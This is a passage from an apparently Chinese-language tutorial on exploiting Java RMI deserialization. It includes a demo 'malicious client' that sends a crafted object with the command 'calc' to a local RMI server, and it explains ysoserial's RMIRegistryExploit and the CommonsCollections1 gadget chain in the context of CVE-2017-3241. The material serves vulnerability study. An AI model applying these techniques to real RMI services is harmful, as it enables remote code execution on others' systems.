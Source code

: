 ```java
                //创建Registry
                reg = LocateRegistry.createRegistry(9999);
                System.out.println("java RMI registry created. port on 9999...");
            } catch (Exception e) {
                System.out.println("Using existing registry");
                reg = LocateRegistry.getRegistry();
            }

            //绑定远程对象到 Registry
            reg.bind("Services", services);
        } catch (RemoteException e) {
            e.printStackTrace();
        } catch (AlreadyBoundException e) {
            e.printStackTrace();
        }
    }
}
```

4.创建恶意客户端

```java
//RMIClient.java
package com.longofo.javarmi;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIClient {
    /**
     * Java RMI恶意利用demo
     *
     * @param args
     * @throws Exception
     */
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 9999);
        // 获取远程对象的引用
        Services services = (Services) registry.lookup("Services");
        PublicKnown malicious = new PublicKnown();
        malicious.setParam("calc");
        malicious.setMessage("haha");

        // 使用远程对象的引用调用对应的方法
        System.out.println(services.sendMessage(malicious));
    }
}
```

上面这个例子是在``CVE-2017-3241分析[3]``中提供代码基础上做了一些修改，先启动RMI Server端的``RMIServer``再启动RMI客户端上的``RMIClient``即可复现。

在ysoserial中的RMIRegistryExploit提供另一种思路，利用其他客户端也能向服务端的Registry注册远程对象的功能，由于对象绑定时也传递了序列化的数据，在Registry端(通常和服务端在同一服务器且处于同一JVM下)会对数据进行反序列化处理，RMIRegistryExploit中使用的CommonsCollections1这个payload，如果Registry端也存在CommonsCollections1这个payload使用到的类就能恶意利用。对于一些CommonsCollections1利用不了的情况，例如CommonsCollections1中相关利用类被过滤拦截了，也还有其他例如结合JRMP方式进行利用的方式，可以参考这位大佬的思路-->[here](http://www.codersec.net/2018/09/%E4%B8%80%E6%AC%A1%E6%94%BB%E5%87%BB%E5%86%85%E7%BD%91rmi%E6%9C%8D%E5%8A%A1%E7%9A%84%E6%B7%B1%E6%80%9D/)。
